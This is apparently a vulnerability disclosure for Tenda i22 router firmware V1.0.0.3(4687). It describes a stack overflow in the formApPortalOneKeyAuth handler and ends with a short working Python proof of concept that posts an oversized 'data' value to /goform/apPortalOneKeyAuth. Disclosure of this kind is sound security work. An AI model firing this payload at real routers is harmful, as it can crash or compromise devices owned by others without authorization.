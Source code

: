 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalOneKeyAuth` function. This function accepts the `data` parameter from a POST request. The parameter is later copied by `strcpy` or `sprintf` to a variable on the stack (`v19` ) , causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalOneKeyAuth"
payload = b"a"*0x6000

data = {
    "data": payload
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)
